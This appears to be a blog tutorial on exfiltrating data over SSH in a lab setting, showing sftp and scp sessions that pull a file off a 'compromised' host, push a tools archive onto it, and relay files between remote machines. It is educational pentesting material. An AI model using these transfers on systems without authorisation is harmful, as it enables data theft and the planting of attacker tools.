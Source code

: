 ```yaml
---
title: SSH Pentesting -> Exfiltration
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, exfiltration, data transfer]     # TAG names should always be lowercase
---
```


# Exfiltration : *mitre -> TA0010*
***Exfiltration*** Is a technigue of removing/transfering data from a compromsied system. Adversaries may use this technigue to steal data from a target network.

# Tools

These are some of the tools that are used to exfiltrate data via ssh protocol.

- sftp
- scp 

## sftp
***SFTP*** Known as SSH File Transfer Protocol or Secure File Transfer Protocol is a network protocol that provides file access, file transfer, and file management over any reliable data stream.

### Exfiltrating data from the compromised system

syntax
> sftp [username]@[target_ip]

**downloading dev.git file from the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> get dev.git
Fetching /home/user1/dev.git to dev.git
sftp> exit

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> sftp [username]@[target_ip]

**uploading tools.zip file to the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
tools.zip

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> put tools.zip
Uploading tools.zip to /home/user1/tools.zip
tools.zip                                                                                                                           100%    0     0.0KB/s   00:00    
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        tools.zip  
sftp> exit
```

## SCP
***SCP*** Secure copy protocol (SCP) is a means of securely transferring computer files between a local host and a remote host or between two remote hosts.

### Exfiltrating data from the compromised system to your system

syntax
> scp [username]@[target_ip]:[path_to_remote_file] [path_to_destination]

**downloading dev.git file from the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@192.168.43.234:/home/user1/dev.git /home/cyberkhalid/pentest/data/dev.git
user1@192.168.43.234's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

### Exfiltrating data from one remote system to another remote system

syntax
> scp [username]@[from_target_ip]:[path_to_file_to_be_copied] [username]@[to_target_ip]:[path_to_destination]

**transfering dev.git file from 10.42.0.21 to 10.42.0.1**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@10.42.0.21:/home/user1/dev.git cyberkhalid@10.42.0.1:/home/cyberkhalid/pentest/data
cyberkhalid@10.42.0.1's password: 
user1@10.42.0.21's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> scp [path_local_file] [username]@[target_ip]:[path_to_destination]

**uploading tools.zip file to the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp tool.zip user1@10.42.0.21:/home/user1/tool.zip
user1@10.42.0.21's password: 
tool.zip                                                                                                                            100%    0     0.0KB/s   00:00    
```

# References

- [https://attack.mitre.org/tactics/TA0010/](https://attack.mitre.org/tactics/TA0010/)
- [https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol)
- [https://en.wikipedia.org/wiki/Secure_copy_protocol](https://en.wikipedia.org/wiki/Secure_copy_protocol)
